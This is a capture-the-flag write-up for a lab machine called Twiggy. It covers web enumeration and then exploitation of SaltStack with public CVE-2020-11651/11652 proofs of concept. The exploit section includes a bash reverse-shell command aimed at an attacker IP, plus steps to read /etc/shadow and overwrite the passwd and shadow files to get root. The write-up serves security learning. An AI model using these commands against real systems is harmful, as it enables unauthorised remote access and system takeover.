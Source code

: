 # Twiggy Writeup

Name: Twiggy
Date:  19/9/2023
Difficulty:  Easy
Goals: 
- Boxes from the list
Learnt:
- Python uses relative path not absolute! 
Beyond Root:
- SaltStack investigation

Another CTF with a amusing picture
![](ChicagaUSA.png)
## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Twiggy/Screenshots/ping.png)

![](nsklookupdns.png)

[Ports 4505-6 Are SaltStack Firewall](https://docs.saltproject.io/en/latest/topics/tutorials/firewall.html) - retrospectively this is weird that I at the time was very hesitant to RCE a firewall.
![](serachsploit-salt.png)

#### HTTP
Django with [Source for Mezzanine a CMS framework for Django](https://github.com/stephenmcd/mezzanine)

[No deafult password for mezzanine - admin : default ](https://www.virtuozzo.com/company/blog/how-to-get-mezzanine-cms-inside-jelastic-cloud/)

![](xxs-mezzanine.png)

The picture:
![](ChicagaUSA.png)
...has no interesting metadata
![](nometadata.png))

Site has anti-directory busting. Potential content discovery defences as Feroxbuster return a lot of http 500 status codes.

Search has three options
- Everything
- Blogs
- Pages

No upload button..
![](uploads.png)

Crawling the for vulnerable javascriptinterseting
![](gogospider.png)

Mapping out the root web page
![](congratz.png)

Before really looking into the proxy on 8000 reveals cherrypy 5.6
![](poc-cherrypyver.png)

Snyk is the goodest dog, but no CherryPy exploits
![](snykonnovulnscherrypy.png)

Contact does not actually do anything
![](nocontactworking.png)

Checked `/about/team`, `/about/history`, `/contact/lintersetingegals`
![](legals.png)
![](about.png)
![](history.png)
![](team.png)

Played around with all the http requests to test whether we get sqli, cmdi, file traversal or lfi for 
```
http://192.168.141.62/admin/login/?next=/admin/
```



![](adminpages.png)

Interesting Error message I checked that is in relation to the nginx conf file not settable through a http request
![](debugequaltruepng.png)


Without disclosing a hint there is a RCE, which is a hint without giving a hint.

I tried using python virtual environments to install and run nginxpwner for potential enumeration of if it was vulnerable.
```bash
git clone https://github.com/stark0de/nginxpwner.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
```


## Exploit

Port 4505, 4506 [ZeroMQ](https://en.wikipedia.org/wiki/ZeroMQ) is a message library. [hackerone pre 2.1 is vulnerable to fuzzing attacks](https://hackerone.com/reports/477073). ZeroMQ ZMTP 2.0 has a [packet storm metasploit module](https://packetstormsecurity.com/files/157678/SaltStack-Salt-Master-Minion-Unauthenticated-Remote-Code-Execution.html) for the SaltStack. Annoyingly my biggest mistake in this is that ZeroMQ is not SaltStack and I trusted `nmap` to identify the service.


![](serachsploit-salt.png)

Metasploit will not work as the mezz user has `/bin/false` - in hindsight 
![](sadmsfpython.png)

Similarly with dealing with any exploits these days that are `python3` use virtual environments 
```bash
git clone https://github.com/dozernz/cve-2020-11651.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install salt
# did not work
python3 CVE-2020-11651.py 192.168.242.62 master '/bin/bash -i >& /dev/tcp/192.168.45.191/4444 0>&1'
```
And for the other CVE PoCsinterseting
```bash
git clone https://github.com/Al1ex/CVE-2020-11652.git
python3 -m venv .venv
source .venv/bin/activate
pip3 install salt
python3 CVE-2020-11652.py -h # for help
```

Initial I fat figured the 2 and 8
![](nocve202011651.png)

Reran
![](anotherfatfiguringip.png)
But no response..![](legals.png)

With [CVE-2020-11652](https://github.com/Al1ex/CVE-2020-11652/blob/main/CVE-2020-11652.py) we can read files
![](wecanreadfiles.png)
And the /etc/shadow file has weird permission so we could add records to the shadow file
![](andshadowfileread.png)

[/bin/false - service account without a shell](https://www.baeldung.com/linux/bin-true-bin-false-commands), No ssh keys to read and `/etc/ssh/sshd.config` 

![](sadhashcat.png)

Copied the `/etc/nginx/nginx.conf` file to remember the location. Give everything we cant actually run anything in the mezz user context, but given the lose file permission of the both passwd and shadow files we can just upload our own.

Learnt that python uses relative paths
![](relativepythonpaths.png)

Upload a new a shadow and passwd file to login
![](r00tedintheshadowfile.png)

And ssh in!
![](iamr00t.png)


## Beyond Root

ChatGPT says: *"SaltStack, now known as Salt Project, is an open-source infrastructure automation and configuration management tool. It is used to automate the deployment and management of infrastructure, including servers, network devices, and cloud resources. One of the features of SaltStack is the ability to manage firewalls, although it doesn't have a specific "SaltStack Firewall" component."* ...

[Salt / SaltStack](https://en.wikipedia.org/wiki/Salt_(software)) *is a Python-based, [open-source software](https://en.wikipedia.org/wiki/Open-source_software "Open-source software") for event-driven IT automation, remote task execution, and [configuration management](https://en.wikipedia.org/wiki/Configuration_management)* ...uses *the [ZeroMQ](https://en.wikipedia.org/wiki/ZeroMQ "ZeroMQ") messaging library to facilitate the high-speed requirements and built Salt using [ZeroMQ](https://docs.saltproject.io/en/latest/topics/transports/zeromq.html) for all networking layers.*

[Firewall port](https://docs.saltproject.io/en/latest/topics/tutorials/firewall.html)
TCP port 4506 is the master 
TCP port 4505 is the slave  

ZeroMQ 2.0 is vulnerable to a RCE.